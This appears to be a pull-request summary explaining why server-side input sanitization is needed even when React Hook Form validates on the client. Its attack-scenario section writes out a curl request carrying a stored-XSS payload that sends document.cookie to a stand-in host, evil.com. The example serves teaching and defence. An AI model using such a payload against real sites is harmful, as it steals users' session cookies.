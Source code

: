 # PR Summary: Server-Side Sanitization Education & Implementation

## The Question
> "I used a react hooks forms plugin. Why do we need to sanitize this anyways? Doesn't the library take care of that stuff?"

## The Answer
**No.** React Hook Form (and all client-side form libraries) **cannot** protect against security attacks because:

1. **Attackers don't use your forms** - They make direct HTTP calls to your API endpoints
2. **Client code can be disabled** - Browser extensions, developer tools, or modified clients can bypass all validation
3. **Form libraries only validate, they don't sanitize** - They check if data is a valid string/email/etc., but accept dangerous content like `<script>alert('XSS')</script>`

## What Was Done

### 1. Comprehensive Documentation Created

#### `docs/SECURITY-VALIDATION.md` (221 lines)
A complete guide covering:
- The critical difference between client-side validation and server-side sanitization
- Security threats that form libraries don't prevent (XSS, HTML injection, SQL injection, NoSQL injection, SSRF)
- Best practices for defense-in-depth security
- Real-world examples showing how to use both together
- Common questions and misconceptions

#### `docs/WHY-SANITIZE-WITH-REACT-HOOK-FORM.md` (78 lines)
A quick reference that:
- Directly answers the original question
- Shows concrete examples of attacks that bypass React Hook Form
- Compares what each tool (React Hook Form, Zod, sanitizeInput) actually does
- Provides a real-world implementation example

#### `apps/store/app/api/contact/README.md` (191 lines)
A detailed guide for the contact form API that:
- Explains the three layers of security
- Shows the correct implementation order (sanitize → validate)
- Lists common mistakes developers make
- Provides security testing commands to verify protection

### 2. Production-Ready API Implementation

#### `apps/store/app/api/contact/route.ts` (151 lines)
A complete, secure contact form API endpoint that demonstrates:
- Proper use of `sanitizeInput` before validation
- Integration with email services (Resend)
- Database storage with parameterized queries
- Comprehensive error handling
- Inline comments explaining each security decision

### 3. Enhanced Existing Code

#### Updated `apps/store/lib/contracts/validation.middleware.ts`
Added 46 lines of comprehensive JSDoc documentation to `sanitizeInput()`:
- Explains what it protects against (XSS, buffer overflow, mass assignment)
- Explains what it doesn't protect against (SQL injection, CSRF, etc.)
- Provides a complete usage example
- Clarifies parameters and return values

#### Updated `apps/store/app/api/waitlist/route.ts`
Added sanitization to the existing waitlist endpoint:
- Sanitizes input before processing
- Uses field whitelisting for security
- Adds explanatory comments

### 4. Repository Improvements

#### Updated `.gitignore`
Fixed to properly exclude all `node_modules/` directories across the monorepo, not just the root.

## The Three Layers of Security

This PR emphasizes that proper security requires **all three layers**:

| Layer | Purpose | Can Be Bypassed? | Tool |
|-------|---------|------------------|------|
| **Client-side validation** | User experience | ✅ YES | React Hook Form |
| **Server-side sanitization** | Remove malicious content | ❌ NO | `sanitizeInput()` |
| **Server-side validation** | Type & business rules | ❌ NO | Zod schemas |

## Example Attack Scenario

### Without Server-Side Sanitization
```bash
# Attacker bypasses React Hook Form entirely
curl -X POST https://yourapi.com/api/contact \
  -H "Content-Type: application/json" \
  -d '{"message":"<script>fetch(\"evil.com?c=\"+document.cookie)</script>"}'
```

**Result**: XSS payload stored in database → Executes when displayed → Steals user cookies

### With Server-Side Sanitization
Same attack → `sanitizeInput` strips HTML tags → Only text stored → Safe

## Code Quality

✅ All code passes ESLint  
✅ All code passes TypeScript compilation  
✅ Follows existing code style and patterns  
✅ Includes comprehensive inline documentation  
✅ Provides working examples and tests  

## Files Changed

```
.gitignore                                        |   1 +
apps/store/app/api/contact/README.md              | 191 ++++++++++
apps/store/app/api/contact/route.ts               | 151 ++++++++
apps/store/app/api/waitlist/route.ts              |  15 +-
apps/store/lib/contracts/validation.middleware.ts |  46 +++
docs/SECURITY-VALIDATION.md                       | 221 ++++++++++
docs/WHY-SANITIZE-WITH-REACT-HOOK-FORM.md         |  78 ++++
7 files changed, 702 insertions(+), 1 deletion(-)
```

## Key Takeaways for Developers

1. **Never trust client-side data** - Always sanitize and validate on the server
2. **Form libraries improve UX, not security** - They're easily bypassed
3. **Use defense in depth** - Multiple layers of security are essential
4. **Sanitize before validating** - Remove malicious content, then check types
5. **Whitelist, don't blacklist** - Only accept expected fields

## References for Further Learning

- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP Input Validation Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html)
- See documentation files added in this PR for comprehensive guides

## Impact

This PR provides:
- ✅ Clear answer to a common security misconception
- ✅ Educational resources for the development team
- ✅ Production-ready examples to follow
- ✅ Improved security for existing API endpoints
- ✅ Foundation for secure API development going forward

**Security is not optional. This PR ensures the team understands why.**
